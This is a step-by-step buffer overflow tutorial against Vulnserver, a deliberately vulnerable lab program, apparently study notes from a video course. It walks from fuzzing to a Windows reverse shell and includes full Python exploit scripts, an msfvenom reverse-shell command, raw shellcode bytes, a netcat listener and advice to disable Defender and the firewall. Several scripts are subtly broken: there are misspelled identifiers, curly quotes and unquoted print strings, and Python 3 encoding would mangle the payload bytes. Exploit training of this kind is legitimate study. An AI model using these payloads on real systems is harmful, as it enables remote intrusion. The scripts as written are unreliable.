



Buffer overflows made easy 2022
********************************************************************************************************************************
Materials for learning
~Target Machine~
Install Immunity Debugger on Windows 10 computer
Remove firewall and Defender from being active
Install Vulnserver for exploit - This also will install python 2
Run all updates and Debloat the machine using Chris Titus debloat script
~Attacker Machine~
Attacker Machine is Updated Kali Linux install
********************************************************************************************************************************
********************************************************************************************************************************
#Theory
Using a combination of tactics we can overflow the memory and have an exe execute shell code.
This is the layout of memory in a running computer. We are going to concentrate our attack on the stack
Here is the layout of the stack
 Normal Buffer usage in the stack looks like this
 The characters are stored in the buffer and cleaned out before EBP - This is normal usage
This is what an attack on the buffer looks like
As you can see the characters are written into memory. They over write the EBP and right into the EIP.
The EIP is the real target. Once you control this address in memory your can tell the exe to execute what ever code payload you have as long as you have room in memory for it.
********************************************************************************************************************************
********************************************************************************************************************************
Steps for a buffer overflow
1. Spiking
2. Fuzzing
3. Finding the offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shell Code
8. Gain root access !BLING BLING!
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
1.
Spiking
Start up vulnserver and Immunity Debugger as Administator
Attach to the vulnserver
Get the IP and vulnserver runs on 9999
On Kali
nc -nv [targetIP] 9999
Once connected, type HELP for list of valid commands
Make note of the commands available to us
We will investigate what command(s) is/are vulnerable to buffer over flow attack
Type EXIT to terminate the connection to vulnserver
We will use a command called generic_send_tcp
usage: generic_send_tcp [targetIP] [port] spike.script.spk 0 0
For each command we are going too make a script that reads like
$_readline();
$_string("VULNERABLE_COMMAND_GOES_HERE ");
$_string_variable("0");
Save this in the name of the command in question with a .spk extention
This command will send connection attempts to vulnserver and attempt to send a payload of random size and characters to force a crash in the program while we watch in the Debugger. The connections will happen over and over again. This will go for a long time unless you stop the program from sending data(let it complete). If there is no crash that means the command is safe.
If the program crashes it's vulnerable to attack. You will see “Access violation when executing ...” in the information bar at the bottom of the debugger. It will also be flashing.
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
2.
Fuzzing
Restart the debugger and the vulnserver again as administrator and attach debugger to the server
Anytime we crash the server we need to restart it using that formula
Python code for fuzzing
Create the following script in Kali to run against target call it - 1.py
######################################################
#!/usr/bin/python3
import sys, socket
from time import sleep
buffer = “A” * 100
while True:
try:
s=socket.socket(sockket.AF_INET, socket.SOCK_STREAM)
s.connect(('target_IP',9999))
payload = “TRUN /.:/" + buffer
s.send((payload.encode()))
s.close()
sleep(1)
buffer = buffer + ‘A’ * 100
except:
print (“Fuzzing crashed at %s bytes” % str(len(buffer)))
sys.exit()
######################################################
This code will cycle over. Each time it cycles it will send an additional 100 bytes of data containing ("A's").
When the program crashes we will look at how many bytes it took too do this. Once crashed we CTRL+C the program in Kali
For the TRUN command it took around 3000 bytes
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
3.
Finding the Offset
We need to create a pattern list of characters 3000 bytes long
To do this we run
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
Copy the result from the command
2.py
######################################################
#!/usr/bin/python3
import sys, socket
offset = ‘
#####YOUR_PASTED_PATTERN_YOU_CREATED_GOES_HERE#####’
#We no longer need a loop because we are sending the payload once. Note the code changes
try:
s=socket.socket(sockket.AF_INET,socket.SOCK_STREAM)
s.connect(('target_IP',9999))
#---the command plus our new payload in the offset variable---#
payload = “TRUN /.:/" + offset
s.send((payload.encode()))
s.close()
except:
print (“Error connecting to server”)
sys.exit()
######################################################
After this crash of the server you want to note the EIP value. In this case its 386F4337
Next we run this command to find the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
This will return
[*] Exact match at offset 2003
This tells us at 2003 bytes we can control the EIP. Remember the EIP is where we can redirect to execute our payload
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
4.
Overwriting the EIP
Remember to restart the server and debugger
Now we know that at 2003 bytes of characters we can tell the EIP where our code is but first we need too....
3.py
######################################################
#!/usr/bin/python3
import sys, socket
shellcode = “A” * 2003 + “B” * 4
#-Note the code changes
try:
s=socket.socket(sockket.AF_INET,socket.SOCK_STREAM)
s.connect(('target_IP',9999))
#---the command plus our new payload in shellcode variable---#
payload = “TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print (“Error connecting to server”)
sys.exit()
######################################################
What will happen is 41414141(the “A's”) will be written on everything except the EIP which should have 42424242(the “B's”)
This means we have written over the EIP and now can control what gets executed by the vulnserver. We can slip code in that will do what ever we like(payload).
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
5.
Finding Bad Characters
We want to avoid certain characters because they are “bad”. We do this because one of these hex characters could be a command in the program that tells the program what too do. When running our code we don't want to mistakenly call a function from the program and screw up our code we are executing from a buffer. So we need to find them.
When we are finding bad characters this means we are looking for what hexidecimal character(s) is/are bad when we generate shell code.
We do this by sending all the hex characters into the target to see what ones do not work well with the target.
By default NULLBYTE character is no good ---- \x00 ← never send this guy!
From the github repo of https://github.com/cytopia/badchars
There is a program we can install on Kali but the repo gives us what we are looking for. I have copied and pasted it below.
$ badchars -f python
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
4.py
######################################################
#!/usr/bin/python3
import sys, socket
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = “A” * 2003 + “B” * 4 + badchars
try:
s=socket.socket(sockket.AF_INET,socket.SOCK_STREAM)
s.connect(('target_IP',9999))
#---the command plus our new payload in shellcode variable---#
payload = “TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print (Error connecting to server)
sys.exit()
######################################################
Run this script
At ESP right click and follow in dump
As you can see by the hilghts B0 the place holder of the bad characters. Every spot you see B0 that hex value that should be there is a bad character you need to avoid when writing your payload. Not all programs are the same. B0 shows up here but may not be what shows up in another program when looking for bad chars.
example first line has B0 for 04 and 05 -→ so 04 and 05 are bad characters
→ \x04 and \x05
You need to inspect this dump from 01 to FF
On the vulnserver it has no bad chars so we will not be setting any bad chars when we generate our shell code
******Alternatively we can do this in the debugger
Setup working folder for mona
Create a folder on C:\mona (working directory)
Enter in the debugger at the input on the bottom of the CPU view
!mona config -set workingfolder c:\mona
Next we can setup a byte array using mona
!mona bytearray -cpb “\x00”
This setups a bad charcters list and you can view in C:\mona\bytearray.txt
Also creates a bytearray.bin file we can use later
Run your badcharcters script in the attacking computer
4.py
Instead of right clicking on the ESP and following in DUMP and manual code review, now we can automate...
Using mona
We call the mona script and use the bytearray.bin and compare the differences to address in ESP
!mona compare -f c:\mona\bytearray.bin -a 010AF9C8
<Enter>
A window should popup with the list of bad characters automatically
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
6.
Finding the Right Module
So we are looking for a program or DLL with no memory protections
We will use a tool that does not come with the debugger called mona.py
https://github.com/corelan/monaInstall the mona.py into C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
In the command prompt on the debugger type the following command
!mona modules <Enter>
A window listing all the programs that run with the vulnserver.exe(target_program.exe) should popup
What you are looking for is in the True/False columns - | Rebase | SafeSEH | ASLR | NXCompat | OS DLL |
We want a program running with our target program → In this case essfunc.dll
Also we want all the protections listed above to be False.
****There is a better way... check bottom of the section~The JMP code to ESP
Now we need to find the OPTCODE equivlant of a JMP command
We do this by using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
run this in your cli on Kali
You will see a nasm interface
nasm >
Enter the following
JMP ESP <Enter>
We should get back
00000000 FFE4 jmp esp
nasm >
Now we take this code FFE4 and go into the debugger
At the bottom in the input field we enter
!mona find -s “\xff\xe4” -m essfunc.dll
remember we enter the search string as hex values
We are looking for a return addresses → 0x625011af this one looks good to use(we can try them all)
So we make note of it and we will use it in our exploit
Please note we have changed the EIP from all “B's” to our new return address we found.
This is where we point to our exploit code because this return address is vulnerable
5.py
######################################################
#!/usr/bin/python3
import sys, socket
#return address 625011af = \xaf\x11\x50\x62 → its reversed for input into memory
shellcode = “A” * 2003 + “\xaf\x11\x50\x62”
try:
s=socket.socket(sockket.AF_INET,socket.SOCK_STREAM)
s.connect(('target_IP',9999))
#---the command plus our new payload in shellcode variable---#
payload = “TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print (Error connecting to server)
sys.exit()
######################################################
Next in the debugger open the CPU view and we are going to follow an expression using the black right arrow icon in the tool bar at the top
Hit F2 and enter the return address. In this case it will be 625011af - this sets a breakpoint -aka pauses the program
Run 5.py so we can see it in the debugger
You can now see we control the EIP with a JMP instruction to essfunc.625011af
******Alternatively we can do this in the debugger
At the bottom of the debugger in the input field
!mona jmp -r ESP -m “essfunc.dll”
This should give us the JMP ESP return address
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
********************************************************************************************************************************
7.
Generation of Shell Code and Getting shell
msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=4444 EXITFUNC=thread -f c -a x86 -b “\x00”
-p means payload of Windows reverse shell
LHOST attackers computer
LPORT is the port you want the reverse shell to come to your attackers computer
EXITFUNC stablizes the code
-f means its going to export code in C
-a specifies the artechture of x86 vs x64
-b are the bad characters we looked for previously
Run the command
copy the hexcode and note the payload size just to be sure we will not run out of room for the payload
This should be fine
6.py
######################################################
#!/usr/bin/python3
import sys, socket
overflow = ( "\xdb\xc7\xba\x83\xd6\xbc\xa0\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x50\x17\x83\xc0\x04\x03\xd3\xc5\x5e\x55\x2f\x01\x1c"
"\x96\xcf\xd2\x41\x1e\x2a\xe3\x41\x44\x3f\x54\x72\x0e\x6d\x59"
"\xf9\x42\x85\xea\x8f\x4a\xaa\x5b\x25\xad\x85\x5c\x16\x8d\x84"
"\xde\x65\xc2\x66\xde\xa5\x17\x67\x27\xdb\xda\x35\xf0\x97\x49"
"\xa9\x75\xed\x51\x42\xc5\xe3\xd1\xb7\x9e\x02\xf3\x66\x94\x5c"
"\xd3\x89\x79\xd5\x5a\x91\x9e\xd0\x15\x2a\x54\xae\xa7\xfa\xa4"
"\x4f\x0b\xc3\x08\xa2\x55\x04\xae\x5d\x20\x7c\xcc\xe0\x33\xbb"
"\xae\x3e\xb1\x5f\x08\xb4\x61\xbb\xa8\x19\xf7\x48\xa6\xd6\x73"
"\x16\xab\xe9\x50\x2d\xd7\x62\x57\xe1\x51\x30\x7c\x25\x39\xe2"
"\x1d\x7c\xe7\x45\x21\x9e\x48\x39\x87\xd5\x65\x2e\xba\xb4\xe1"
"\x83\xf7\x46\xf2\x8b\x80\x35\xc0\x14\x3b\xd1\x68\xdc\xe5\x26"
"\x8e\xf7\x52\xb8\x71\xf8\xa2\x91\xb5\xac\xf2\x89\x1c\xcd\x98"
"\x49\xa0\x18\x0e\x19\x0e\xf3\xef\xc9\xee\xa3\x87\x03\xe1\x9c"
"\xb8\x2c\x2b\xb5\x53\xd7\xbc\x7a\x0b\xd7\x58\x13\x4e\xd7\xb1"
"\xbf\xc7\x31\xdb\x2f\x8e\xea\x74\xc9\x8b\x60\xe4\x16\x06\x0d"
"\x26\x9c\xa5\xf2\xe9\x55\xc3\xe0\x9e\x95\x9e\x5a\x08\xa9\x34"
"\xf2\xd6\x38\xd3\x02\x90\x20\x4c\x55\xf5\x97\x85\x33\xeb\x8e"
"\x3f\x21\xf6\x57\x07\xe1\x2d\xa4\x86\xe8\xa0\x90\xac\xfa\x7c"
"\x18\xe9\xae\xd0\x4f\xa7\x18\x97\x39\x09\xf2\x41\x95\xc3\x92"
"\x14\xd5\xd3\xe4\x18\x30\xa2\x08\xa8\xed\xf3\x37\x05\x7a\xf4"
"\x40\x7b\x1a\xfb\x9b\x3f\x3a\x1e\x09\x4a\xd3\x87\xd8\xf7\xbe"
"\x37\x37\x3b\xc7\xbb\xbd\xc4\x3c\xa3\xb4\xc1\x79\x63\x25\xb8"
"\x12\x06\x49\x6f\x12\x03")
#So now we have everything we need
# The offset
#The EIP with JMP instructions to overflow
#We have a rev shell in c hex
#Now we need to pad the pay load with NOP PAD(no operations) helps execute the payload
#Note the “\x90” * 32 before the payload
shellcode = “A” * 2003 + “\xaf\x11\x50\x62” + “\x90” * 32 + overflow
try:
s=socket.socket(sockket.AF_INET,socket.SOCK_STREAM)
s.connect(('target_IP',9999))
#---the command plus our new payload in shellcode variable---#
payload = “TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print (Error connecting to server)
sys.exit()
######################################################
Setup a listener on your attacking machine
netcat running on 4444 just like the rev shell payload
nc -nvlp 4444
Run 6.py and we should have reverse shell on the computer with privileges running as user that started the program
#!BLING-BLING!
********************************************************************************************************************************
********************************************************************************************************************************
- Credits:
- Buffer Overflows Made Easy 2022 -
https://youtu.be/ncBblM920jw - The Cyber Mentor
- Also S1REN of Offensive Security